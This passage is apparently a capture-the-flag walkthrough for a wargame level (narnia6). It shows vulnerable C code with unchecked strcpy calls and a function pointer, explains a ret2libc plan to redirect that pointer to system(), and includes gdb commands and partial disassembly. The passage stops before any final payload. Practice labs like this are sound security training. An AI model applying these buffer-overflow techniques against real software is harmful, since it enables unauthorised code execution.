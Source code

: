```
        memset(argv[i], '\0', strlen(argv[i]));

    strcpy(b1,argv[1]);
    strcpy(b2,argv[2]);
    if(((unsigned long)fp & 0xff000000) == 0xff000000)
        exit(-1);
    fp(b1);

    exit(1);
}
```

Unlike previous levels, in this level the stack isn't executable, thus preventing us from directing execution flow to our shellcode. However, what we can do is change `fp` to point to a different function than `puts`. A worthy choice is `system`, which has the same signature as `puts`:

```
SYSTEM(3)                       Linux Programmer's Manual                       SYSTEM(3)

NAME
       system - execute a shell command

       SYNOPSIS
              #include <stdlib.h>

              int system(const char *command);
```

Thankfully, [ASLR](http://en.wikipedia.org/wiki/Address_space_layout_randomization) isn't used, so this is a classic [ret2libc](http://en.wikipedia.org/wiki/Return-to-libc_attack) scenario. We begin by retrieving the address of `system` and examining the stack just before the call to `fp`:

```
narnia6@melinda:/narnia$ gdb -q --args ./narnia6 $(python -c "print '\x41'*8 + ' ' + '\x42'*8")
Reading symbols from /games/narnia/narnia6...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x080484d4 <+0>:     push   ebp
   0x080484d5 <+1>:     mov    ebp,esp
   0x080484d7 <+3>:     push   edi
   0x080484d8 <+4>:     and    esp,0xfffffff0
   0x080484db <+7>:     sub    esp,0x40
   0x080484de <+10>:    mov    DWORD PTR [esp+0x38],0x80483d0
   0x080484e6 <+18>:    cmp    DWORD PTR [ebp+0x8],0x3
   0x080484ea <+22>:    je     0x804850e <main+58>
   0x080484ec <+24>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080484ef <+27>:    mov    edx,DWORD PTR [eax]
   0x080484f1 <+29>:    mov    eax,0x8048730
   0x080484f6 <+34>:    mov    DWORD PTR [esp+0x4],edx
   0x080484fa <+38>:    mov    DWORD PTR [esp],eax
   0x080484fd <+41>:    call   0x80483b0 <printf@plt>
   0x08048502 <+46>:    mov    DWORD PTR [esp],0xffffffff
   0x08048509 <+53>:    call   0x80483f0 <exit@plt>
   0x0804850e <+58>:    mov    DWORD PTR [esp+0x3c],0x0
   0x08048516 <+66>:    jmp    0x8048571 <main+157>
   0x08048518 <+68>:    mov    eax,ds:0x8049940
   0x0804851d <+73>:    mov    edx,DWORD PTR [esp+0x3c]
   0x08048521 <+77>:    shl    edx,0x2
   0x08048524 <+80>:    add    eax,edx
   0x08048526 <+82>:    mov    eax,DWORD PTR [eax]
   0x08048528 <+84>:    mov    DWORD PTR [esp+0x1c],0xffffffff
   0x08048530 <+92>:    mov    edx,eax
   0x08048532 <+94>:    mov    eax,0x0
   0x08048537 <+99>:    mov    ecx,DWORD PTR [esp+0x1c]
```